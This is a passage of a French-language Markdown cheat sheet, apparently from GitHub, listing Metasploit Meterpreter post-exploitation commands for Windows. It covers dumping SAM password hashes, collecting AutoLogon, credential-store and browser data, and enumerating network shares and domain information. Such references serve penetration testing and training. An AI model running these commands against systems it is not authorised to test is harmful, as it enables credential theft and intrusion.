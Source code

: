 
## 🔐 3. Énumération des credentials

### Dump des mots de passe
| Commande | Description |
|----------|-------------|
| `hashdump` | Dump des hashes SAM |
| `run post/windows/gather/smart_hashdump` | Dump intelligent des hashes |
| `run post/windows/gather/credentials/windows_autologin` | Credentials AutoLogon |
| `run post/windows/gather/credentials/credential_collector` | Collecte générale de credentials |

### Historique et cache
| Commande | Description |
|----------|-------------|
| `run post/windows/gather/enum_ie` | Historique Internet Explorer |
| `run post/windows/gather/enum_chrome` | Données Chrome |
| `run post/windows/gather/credentials/enum_cred_store` | Windows Credential Store |

---

## 🌐 4. Énumération réseau

### Configuration réseau
| Commande | Description |
|----------|-------------|
| `ipconfig` | Configuration IP |
| `route` | Table de routage |
| `arp` | Table ARP |
| `netstat` | Connexions réseau |

### Partages et ressources réseau
| Commande | Description |
|----------|-------------|
| `run post/windows/gather/enum_shares` | Partages réseau |
| `run post/windows/gather/enum_snmp` | Configuration SNMP |
| `run post/windows/gather/enum_domain` | Informations du domaine |
| `shell` puis `net share` | Partages locaux |
| `shell` puis `net use` | Connexions réseau actives |

---